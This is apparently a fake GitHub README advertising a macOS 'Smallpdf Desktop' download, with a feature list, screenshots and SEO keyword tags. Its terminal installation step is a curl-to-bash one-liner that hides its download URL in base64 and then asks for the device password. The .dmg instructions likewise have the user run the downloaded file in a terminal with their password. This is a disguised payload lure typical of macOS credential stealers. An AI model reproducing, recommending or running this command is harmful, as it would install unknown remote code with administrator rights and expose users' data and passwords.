 # 🧾 Smallpdf Desktop — Easy PDF Tools for macOS

Smallpdf Desktop is a powerful and simple PDF management application designed for macOS users. It offers a wide range of tools to convert, compress, edit, and organize PDF files, making document handling effortless for individuals and businesses alike.

## ✅ Download Smallpdf Desktop for macOS  
[![Download Smallpdf](https://img.shields.io/badge/Download-Smallpdf-blueviolet)](https://smallpdf-desktop-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is Smallpdf Desktop?

Smallpdf Desktop brings the convenience of online PDF tools into a native macOS app. It supports converting various file formats to PDF and vice versa, compressing large documents, applying OCR, and editing PDFs with ease — all optimized for Mac users.

---

## ✨ Features

- 📄 Convert PDFs to Word, Excel, JPG, PPT and other formats  
- 🔄 Compress large PDF files without losing quality  
- ✍️ Edit, merge, split, and rotate PDFs  
- 🔍 OCR technology to convert scanned documents into editable text  
- 🖥️ Fully compatible with macOS and Retina displays  
- 🔒 Secure PDFs with passwords and encryption  
- 📤 Simple drag-and-drop interface for fast processing  

---

## 💡 Why Use Smallpdf Desktop?

- ✅ Streamlines PDF workflows on macOS  
- 🚀 Boost productivity with fast, efficient PDF conversions  
- 🔐 Protect sensitive documents with advanced security  
- 🌐 Use offline without internet connection  
- 🖱️ User-friendly interface designed for all skill levels  

---

[![Download Smallpdf](https://img.shields.io/badge/Download-Smallpdf-blueviolet)](https://smallpdf-desktop-mac-download.github.io/.github)

---

## 🖼️ Preview

![Smallpdf Screenshot 1](https://www.pcworld.com/wp-content/uploads/2025/04/Smallpdf-tools.png)  
![Smallpdf Screenshot 2](https://static-cdn.mackeeper.com/mk-blog-upload/images/new_XdXKOQrjpT.webp)

---

## 📌 Tags

smallpdf, smallpdf jpg to pdf, smallpdf word to pdf, smallpdf free, smallpdf to excel, smallpdf pdf to jpg,  
smallpdf download, smallpdf pdf to excel, pdf to word smallpdf, small pdf com jpg to pdf, smallpdf pdf,  
smallpdf ocr, free small pdf, smallpdf online, word to pdf smallpdf, smallpdf pdf to ppt, smallpdfpro,  
smallpdf com pdf to jpg, smallpdf to jpg, pdf to small pdf, big pdf to small pdf, big pdf to smallpdf,  
big to small pdf, https small pdf, i love small pdf, jpg to pdf small pdf, large pdf to small pdf,  
large pdf to smallpdf, smallpdf mac, smallpdf mac download
